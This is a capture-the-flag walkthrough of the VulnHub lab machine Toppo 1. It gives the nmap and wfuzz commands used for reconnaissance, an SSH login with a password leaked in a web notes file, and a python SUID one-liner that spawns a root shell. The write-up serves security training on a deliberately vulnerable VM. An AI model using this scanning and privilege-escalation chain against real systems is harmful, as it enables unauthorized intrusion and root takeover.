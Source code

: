 ```yaml
---
title: VulnHub - Toppo 1
author: ret2x
date: 2021-10-07 13:00:22 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, file disclosure]
image:
    path: /assets/images/toppo/front.png
---
```


**Description:** A linux machine hosting a web site which contains the credentials to login via SSH to the server. Granting special SUID permissions to the python binary allowed to gain root privileges.

**Author:** Hadi Mene

**Operating System:** Linux

**Download:**[https://www.vulnhub.com/entry/toppo-1,245/](https://www.vulnhub.com/entry/toppo-1,245/)

## Information Gathering
### Host Discovery

With nmap I discovered the target machine on the local network.

```console
root@kali:~$ nmap -n -sn 192.168.179.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-07 12:40 -05
Nmap scan report for 192.168.179.1
Host is up.
Nmap scan report for 192.168.179.154
Host is up (0.00070s latency).
MAC Address: 08:00:27:CB:BD:36 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.179.254
Host is up (0.00029s latency).
MAC Address: 00:50:56:F0:4D:8E (VMware)
```

### Port Scanning

Then, I did a full TCP port scan to discover open ports.

```console
root@kali:~$ nmap -T4 -v -n -p- 192.168.179.154 -oG nmap/all-tcp-ports.txt
...
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
48238/tcp open  unknown
```

### Service Enumeration

Then I performed the version detection and OS, script scanning and traceroute on the target host.

```console
root@kali:~$ nmap -A -v -p22,80,111,48238 192.168.179.154 -oN nmap/service-enum.txt
...
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000) 
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          37372/udp   status 
|   100024  1          48238/tcp   status 
|   100024  1          52388/udp6  status 
|_  100024  1          57788/tcp6  status
48238/tcp open  status  1 (RPC #100024)
```

### Web Enumeration

In the web page, at first glance I didn't find anything important, so I decided run wfuzz to find files and directories hidden.

![](/assets/images/toppo/screenshot-1.png)

```console
root@kali:~$ wfuzz -c --hc 404 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://192.168.179.154/FUZZ
...
000000039:   301        9 L      28 W       316 Ch      "img"
000000201:   301        9 L      28 W       317 Ch      "mail"
000000259:   301        9 L      28 W       318 Ch      "admin"
000000550:   301        9 L      28 W       316 Ch      "css"
000000730:   301        9 L      28 W       319 Ch      "manual"
000000953:   301        9 L      28 W       315 Ch      "js"
000001481:   301        9 L      28 W       319 Ch      "vendor"
000003295:   200        21 L     172 W      1093 Ch     "LICENSE"
```

Listing the admin directory I found the notes.txt file, as we can see this contains a password, this possibly belongs to the ted user, since it's included in the password.

![](/assets/images/toppo/screenshot-2.png)

![](/assets/images/toppo/screenshot-3.png)

## Exploitation
### Access via ssh

I tried to log in to the server via SSH with the user **ted** and password **12345ted123**, and the access was successful.

```console
root@kali:~$ ssh ted@192.168.179.154             
ted@192.168.179.154's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 15 12:33:00 2018 from 192.168.0.29
ted@Toppo:~$
```

Enumerating for SUID binaries, I found the python binary with this permission, we can abuse this to escalate our privileges.  

```console
ted@Toppo:~$ find / -perm -u=s -type f 2>/dev/null 
...
/usr/bin/python2.7
...
```

## Privilege Escalation
### SUID binary

To get root I used the following python instruction, this imports the os module which allows you to run the execl() function, this subroutine runs an executable file indicated by the path, in this case the bash binary, this method was obtained from the [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) guide.

```console
ted@Toppo:~$ python -c 'import os; os.execl("/bin/bash","bash","-p")'
bash-4.3# id
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
bash-4.3# whoami
root

bash-4.3# cd /root
bash-4.3# ls
flag.txt
bash-4.3# cat flag.txt 
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              




Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```
